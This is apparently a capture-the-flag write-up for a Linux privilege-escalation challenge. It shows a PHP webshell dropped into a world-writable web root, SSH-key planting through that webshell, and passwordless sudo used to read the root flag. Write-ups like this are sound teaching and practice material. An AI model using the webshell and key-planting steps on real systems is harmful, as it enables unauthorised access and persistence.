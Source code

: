# Undercover#2

### Category

System

### Description

This is your first real assignemnt. You have to assess the security of one of our developpers systems. He's a very good coder, but not that good at keeping his system safe. Could you report to us any vulnerabilities you find in his system?

The base credentials are:
```
user:password123
```

Format : **Hero{flag}**<br>
Author : **Log_s**

### Write up

We can connect as `user`. It turns out, that the folder /var/www/html is world writable.
```
user@e3eb9614f8a6:~$ ls -ld /var/www/html
drwxrwxrwx 1 root root 4096 Apr  8 10:48 /var/www/html
```

We also notice that the apache server is running as the `dev` user, instead of the `www-data` user.
```
user@e3eb9614f8a6:~$ ps -aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0  18388  3064 ?        Ss   10:47   0:00 /bin/bash /root/start.sh
root          12  0.0  0.0 327136 16904 ?        Ss   10:47   0:00 /usr/sbin/apache2 -k start
root          14  0.0  0.0  72312  5756 ?        S    10:47   0:00 /usr/sbin/sshd -D
dev           15  0.0  0.0 331780 12912 ?        S    10:47   0:00 /usr/sbin/apache2 -k start
dev           16  0.0  0.0 331772 12368 ?        S    10:47   0:00 /usr/sbin/apache2 -k start
dev           17  0.0  0.0 331536  8916 ?        S    10:47   0:00 /usr/sbin/apache2 -k start
dev           18  0.0  0.0 331536  8916 ?        S    10:47   0:00 /usr/sbin/apache2 -k start
dev           19  0.0  0.0 331536  8916 ?        S    10:47   0:00 /usr/sbin/apache2 -k start
root          22  0.0  0.0 103864  7168 ?        Ss   10:47   0:00 sshd: user [priv]
user          33  0.0  0.0 103864  3680 ?        R    10:47   0:00 sshd: user@pts/0
user          34  0.0  0.0  20372  3848 pts/0    Ss   10:47   0:00 -bash
user          58  0.0  0.0  38460  3456 pts/0    R+   10:50   0:00 ps -aux
```

The easy thing to do here, is to write a webshell into the `/var/www/html` folder. You can echo it, or use vim.
```php
<?php system($_GET["cmd"]) ?>
```

And here we go.
```
user@e3eb9614f8a6:~$ curl localhost/shell.php?cmd=id
uid=1000(dev) gid=1000(dev) groups=1000(dev)
```

Let's get a shell. To do so, we can simply copy our public ssh key to a world readable place, like the `/tmp` folder.
```
user@e3eb9614f8a6:~$ cp ~/.ssh/id_rsa.pub /tmp/authorized_keys
```

Using our webshell, we can just copy the key to `dev`'s `.ssh` folder.
```
user@e3eb9614f8a6:~$ curl localhost/shell.php?cmd=mkdir%20/home/dev/.ssh
user@e3eb9614f8a6:~$ curl localhost/shell.php?cmd=cp%20/tmp/authorized_keys%20/home/dev/.ssh
user@e3eb9614f8a6:~$ ssh dev@localhost
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 5.13.0-39-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

dev@e3eb9614f8a6:~$ id
uid=1000(dev) gid=1000(dev) groups=1000(dev)
```

At this point, getting a shell as root is very easy.
We notice that the dev user can run any root command without any password (probably for more comfort).
```
dev@e3eb9614f8a6:~$ sudo -l
Matching Defaults entries for dev on e3eb9614f8a6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dev may run the following commands on e3eb9614f8a6:
    (ALL) NOPASSWD: ALL
dev@e3eb9614f8a6:~$ sudo /bin/bash
root@e3eb9614f8a6:~# id
uid=0(root) gid=0(root) groups=0(root) 
root@e3eb9614f8a6:~# cat /root/flag.txt 
Hero{3w-d4ta_1s_n0t_us3l3s5}
```


### Flag

```Hero{3w-d4ta_1s_n0t_us3l3s5}```
